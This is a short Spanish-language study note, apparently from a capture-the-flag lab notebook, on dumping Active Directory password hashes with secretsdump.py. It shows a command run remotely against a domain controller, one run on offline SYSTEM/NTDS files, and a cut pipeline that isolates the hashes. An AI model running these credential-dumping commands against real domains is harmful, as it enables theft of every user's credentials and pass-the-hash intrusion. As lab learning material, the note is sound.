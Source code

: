 Esta herramienta sirve para dumpear los hashes de todos los usuarios del dominio utilizando las credenciales de un usuario y contraseña que tengan el permiso para ello
# Extracción hash secretdump
```
secretsdump.py -just-dc backup@10.10.143.170
```
![[Pasted image 20240717113907.png]]

[[MAQUINA ATTACKTIVE DIRECTORY(enum4linux, kerbrute enumerar usuarios, ASREPRoasting obtener TGT, john the ripper, smbclient para listar recursos compartidos, secredump dumpear hashes y pass the hash)]]


------
# Extracción hashes archivos SYSTEM y NTDS
```
secretsdump.py -system system.hive -ntds ntds.dit LOCAL | tee hashdump.txt
```
![[Pasted image 20240731091458.png]]

Y ahora depuraremos la salida del comando para obtener unicamente los hasehes
```
cat hashdump.txt | cut -d':' -f4 | tee final_hash.txt
```
![[Pasted image 20240731092505.png]]

[[MAQUINA RAZORBLACK (Explotación servicio kerberos, montura de sistema de archivos,  acceso por pass-the-hash y escalada de privilegios explotando permiso SeBackupPrivilage)]]